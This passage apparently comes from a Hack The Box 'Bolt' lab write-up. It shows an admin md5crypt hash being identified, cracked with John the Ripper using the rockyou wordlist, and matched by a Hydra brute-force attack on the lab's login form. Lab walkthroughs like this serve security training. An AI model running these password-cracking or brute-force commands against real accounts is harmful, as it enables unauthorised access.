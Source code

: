 Above I've opened the db file and dumped the admin password hash. Now we can try to crack it:

```sh
──(root💀kali)-[~/htb/bolt]
└─# echo "\$1\$sm1RceCh\$rSd3PygnS/6jlFDfF2J5q." > hash.txt

┌──(root💀kali)-[~/htb/bolt]
└─# nth --file hash.txt
  _   _                           _____ _           _          _   _           _     
 | \ | |                         |_   _| |         | |        | | | |         | |    
 |  \| | __ _ _ __ ___   ___ ______| | | |__   __ _| |_ ______| |_| | __ _ ___| |__  
 | . ` |/ _` | '_ ` _ \ / _ \______| | | '_ \ / _` | __|______|  _  |/ _` / __| '_ \ 
 | |\  | (_| | | | | | |  __/      | | | | | | (_| | |_       | | | | (_| \__ \ | | |
 \_| \_/\__,_|_| |_| |_|\___|      \_/ |_| |_|\__,_|\__|      \_| |_/\__,_|___/_| |_|
https://twitter.com/bee_sec_san
https://github.com/HashPals/Name-That-Hash 

$1$sm1RceCh$rSd3PygnS/6jlFDfF2J5q.

Most Likely 
MD5 Crypt, HC: 500 JtR: md5crypt
Cisco-IOS(MD5), HC: 500 JtR: md5crypt
FreeBSD MD5, HC: 500 JtR: md5crypt
```

Looks to be an md5crypt. let's get John on it:

```sh
┌──(root💀kali)-[~/htb/bolt]
└─# john hash.txt -format=md5crypt -w=/usr/share/wordlists/rockyou.txt      
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<HIDDEN>         (?)
1g 0:00:00:00 DONE (2021-10-24 22:23) 2.000g/s 345600p/s 345600c/s 345600C/s doida..curtis13
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

That was quick, however looking back at Hydra we see it found the same password by brute forcing the login page a long time ago:

```text
┌──(root💀kali)-[~/htb/bolt]
└─# hydra -l admin -P /usr/share/wordlists/rockyou.txt bolt.htb http-post-form "/login:username=^USER^&password=^PASS^:Invalid password" -t 64
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-24 15:43:59
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking http-post-form://bolt.htb:80/login:username=^USER^&password=^PASS^:Invalid password
[STATUS] 6651.00 tries/min, 6651 tries in 00:01h, 14337748 to do in 35:56h, 64 active
[STATUS] 6250.33 tries/min, 18751 tries in 00:03h, 14325648 to do in 38:12h, 64 active
[80][http-post-form] host: bolt.htb   login: admin   password: <HIDDEN>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-24 16:11:02
```
